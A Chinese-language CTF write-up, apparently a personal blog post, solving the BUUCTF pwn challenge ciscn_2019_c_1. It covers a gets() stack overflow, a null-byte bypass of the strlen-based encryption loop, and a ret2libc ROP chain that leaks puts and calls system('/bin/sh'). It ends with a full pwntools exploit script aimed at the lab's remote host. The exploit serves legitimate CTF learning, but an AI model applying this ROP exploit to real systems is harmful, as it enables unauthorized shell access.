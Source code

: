 ```yaml
---
layout: post
title: 'PWN手的成长之路-14-ciscn_2019_c_1-ret2libc'
date: "2025-10-13T00:42:36Z"
---
```

PWN手的成长之路-14-ciscn\_2019\_c\_1-ret2libc
=======================================

![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251011213156881-566123849.png)

file:  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251011213245527-1823197108.png)

checksec:  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251011213255966-733232598.png)

查看 main 函数：  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251011214547059-1988519176.png)  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251011215204039-916354547.png)  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251011215416451-2088910374.png)  
再结合程序的运行，我们输入的值存到了 v4 中，当 v4=2 时，程序重新再次执行 `begin()` 函数，若输入 3，则直接退出程序，只有当我们输入 1 的时候，程序才会调用 `encrypt()` 函数。

查看 `encrypt()` 函数。`gets()` 读取输入并进入循环，通过 `strlen(s)` 获取用户输入的字节长度并对字符进行一系列异或操作。  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251011215510019-692291298.png)

发现存在 `gets()` 高危函数，猜测存在栈溢出漏洞。但是这道题没有 `system("/bin/sh")`，并且文件开启了 NX 保护，因此 ret2shellcode、ret2text基本排除了，所以只能是 ret2libc。

ret2libc 是不直接注入 shellcode （因为程序通常具有 NX 保护，栈不可知执行），而是通过利用程序自身加载的动态链接库（比如 libc.so）中的函数（如 system()、execve()等）来执行任意的代码。

但是这道题并没有给出 libc.so 文件，并且程序自身也没有 system 函数和 "/bin/sh" 字符串，所以就需要先泄露程序中的函数地址，再查询 libc 版本，并找到 system 函数和 "/bin/sh" 字符串的内存地址。

再分析 encrypt() 函数，strlen 函数是一个C库中的函数，主要用于计算以空字符 “\\0”  
为结尾的字符串长度，它会从传入的字符串开始检查每一个字符，直到遇到 “\\0” 为止，然后返回遇到的字符串个数（其中不包括 "\\0" 本身），例如：给定字符串 “hello”，strlen 函数会返回5，但是如果在字符串开头加上 "\\0"，那么此时 strlen 函数就会返回0，例如：输入字符串 "\\0hello"，strlen 函数就会返回0，因为 strlen 函数的机制就是遇到 "\\0" 就停止计数，在 encrypt() 函数的后续有说明当 v0>= strlen(s)，但是由于 strlen 返回的就是0，所以 v0>=strlen(s) 为假，条件不成立则跳出循环，即跳过了 encrypt 函数对字符串进行异或操作的逻辑，以达到 “破坏” 加密流程的目的（目的就是不让他进行加密操作）。

因为函数没有 system 、/bin/sh，所以攻击会变得较为复杂步骤：  
1、泄露libc函数地址（puts）  
2、计算其他libc函数地址（system）  
3、构造ROP链（/bin/sh）

具体流程：先泄露 puts 函数 plt，再泄露 puts 函数 got 表，栈溢出覆盖返回地址，控制流程使其跳转到 puts@plt，设置 put 参数的内存地址为 got（即泄露 puts 在内存中的实际地址），再返回 main 函数，为什么是 main 函数，因为需要返回到可以再次触发漏洞的攻击函数，方便二次攻击。

再得到puts的真实地址后，使用得到puts地址并结合ibc数据库匹配相对应的libc版本，再计算其他函数的偏移地址。

最终exp（调试了快两天才最终于2025/10/12/14:40成功）：

    from pwn import *
    from LibcSearcher import *
    
    
    #start
    r = remote('node5.buuoj.cn',28626)
    #r = process('./pwn')
    elf = ELF('./pwn')
    #libc=ELF('/lib/x86_64-linux-gnu/libc.so.6') #ldd pwn
    context.log_level='debug'
    
    
    #params
    rdi_addr = 0x400C83
    ret_addr = 0x4006b9
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    main_addr = elf.sym['main']
    
    
    #attack
    payload = b'a'*(0x50 + 8) + p64(rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
    r.sendlineafter(b"choice",b'1')
    r.sendline(payload)
    puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    #puts_addr = u64(r.recvline()[:-1].ljust(8,b'\0'))
    print(hex(puts_addr))
    
    
    #libc
    libc = LibcSearcher("puts",puts_addr)
    base_addr = puts_addr - libc.dump('puts')
    system_addr = base_addr + libc.dump('system')
    bin_sh_addr = base_addr + libc.dump('str_bin_sh')
    
    #base_addr = puts_addr - libc.symbols['puts']
    #system_addr = base_addr + libc.symbols['system']
    #bin_sh_addr = base_addr + next(libc.search(b'/bin/sh'))
    
    
    #attack2
    payload2 = b'a'*(0x50+8) + p64(ret_addr) + p64(rdi_addr) + p64(bin_sh_addr) +p64(system_addr)
    r.sendlineafter(b'choice',b'1')
    r.recvuntil(b'encrypted')
    r.sendline(payload2)
    r.interactive()
    

参考1000x\_师傅的文章。